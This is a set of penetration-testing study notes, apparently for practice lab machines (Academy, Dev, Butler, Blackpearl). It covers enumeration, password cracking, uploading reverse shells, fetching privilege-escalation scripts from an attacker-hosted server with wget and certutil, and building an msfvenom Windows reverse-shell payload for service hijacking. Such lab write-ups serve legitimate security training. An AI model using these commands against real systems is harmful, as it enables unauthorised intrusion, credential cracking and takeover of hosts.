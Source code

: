 # Academy
## Basic Enumeration
Get the ip address
Run nmap to get ports quickly
```bash
nmap -T4 -p- --min-rate=1000 --max-retries=3 ip-address
```
Run nmap to fingerprint the discovered ports and running services
```bash
nmap -T4 -A -p <ports> ip-address
```
Investigate the opened services. See the kind of access that we have. Review the versions
## Services
### FTP
FTP: try to connect to it. See if there are vulnerabilities associate with it or information to extract
```bash
ftp ip-to-connect
get file-to-download
```
Found a has? a tool called `hash-identifier` can be used to help identify the type
Crack MD5 hashes with hashcat
```bash
hashcat -m 0 hash-file /path/to/wordlist
```
### HTTP
HTTP: Run directory discovery scans. Generate error messages. Mapout the technologies used.
use ffuf non recursively to bruteforce directories
```bash
ffuf -u url/FUZZ -w /path/to/wordlist
```
If we get into the website, look for way to get code execution
Check for all the functionality
Try to upload a reverse shell that matches the technology in use
Find one using google "php reverse shell"
use `nc` to listen for the reverse shell
## Shell Access
Once we get access to the console, enumerate the user and see what access we have
for linux use linpeas
use linpeas from github to escalate privileges (very important that it is the official one from GitHub)
could use a python3 server to transfer the linpeas.sh file
Attacker machine
```bash
python3 -m http.server 80
```
Victim machine
```bash
wget http://ip-attacker/linpeas.sh
```
do this in a /tmp folder
make the file executable
run it a see what it discovers
You can also use pspy to list processes
Use that information to escalate privileges or change to another user
If we change to another user then repeat the same process with linpeas.sh
check for a process being run by the root that we can inject our own code into
if you found one the insert a bash reverse shell. use a one liner if possible
# Dev
Get the ip address
Run nmap to get ports quickly
Run nmap to fingerprint the discovered ports and running services
Investigate the opened services. See the kind of access that we have. Review the versions
## Services
### HTTP
HTTP: Run directory discovery scans. Generate error messages. Mapout the technologies used.
use ffuf non recursively to bruteforce directories
```bash
ffuf -u url/FUZZ -w /path/to/wordlist
```
Do something else while scans run in the background
Look at the pages returned by the scans
Look for technologies used and known vulnerabilities associated with them
### 2049/tcp nfs_acl
```bash
showmount ip-address
```
mount to the share
```bash
mkdir /mnt/dev
mount -t nfs ip-address:/path/to/nfs /mnt/dev
cd /mnt/dev
```
## file types
If a zip has a password we could use a tool to try to crack it
```bash
sudo apt install fcrackzip
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt ziptocrack.zip
```
## Shell Access
Once we get access to the console, enumerate the user and see what access we have
```bash
history
sudo -l
```
If `sudo -l` works then use the GTFOBins website to find a path to escalate privileges
use linpeas from github to escalate privileges (very important that it is the official one from GitHub)
# Butler
Same nmap workflow
Investigate the opened services. See the kind of access that we have. Review the versions
## Services
### Jenkins
Look for pentesting guides on jenkins
Look for CVEs
Try default credentials
Could bruteforce it with metasploit or burp suite
Find a way to get RCE
## Shell Access
Look for privilege escalations paths
Use winpeas for windows privilege escalation
could use a python3 server to transfer the winpeas.exe file
Attacker machine
```bash
python3 -m http.server 80
```
Victim machine
```cmd
certutil.exe -urlcache -f http://ip-attacker/winpeas.exe winpeas.exe
```
download the file in the 
c:\Users\user-here folder or the c:\Users\user-here\Downloads folder. Somewhere that the user has write permissions
run the file
Look for quick wins. This is for privilege escalation and for any stage of the pentest
Try to find something that the user can modify and that runs with administrator/root privileges
Use msfvenom to generate shell code
From attacker machine
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker-ip LPORT=port-number -f exe > Name.exe
```
Need to restart the running service so the new .exe executes
Find what service is running
winpeas should have this info
```cmd
sc stop ServiceName
sc query ServiceName
sc start ServiceName
```
# Blackpearl
Same nmap workflow
Investigate the opened services. See the kind of access that we have. Review the versions
## Services
### HTTP
View source code
Enumerate page via directory bruteforce tools `ffuf`
Fingerprint technologies used and try to find a CVE with RCE
Look for Rapid7 or exploit DB articles in google. metasploit might help get the RCE going
### DNS
```bash
dnsrecon -r 127.0.0.0/24 -n ip-address-of-victim -d blah
```
add entry to /etc/hosts
## Shell Access
if a non interactive shell is seen, try to generate a TTY Shell. Use google to find a way to do it
```bash
python -c 'import pty; pty.spawn("/bin/bash")'   # Spawns a basic TTY
```
Follow the linpeas.sh methodology
find suid files
manual command
```bash
find / -type f -perm 4000 2>/dev/nell
```
use https://gtfobins.github.io
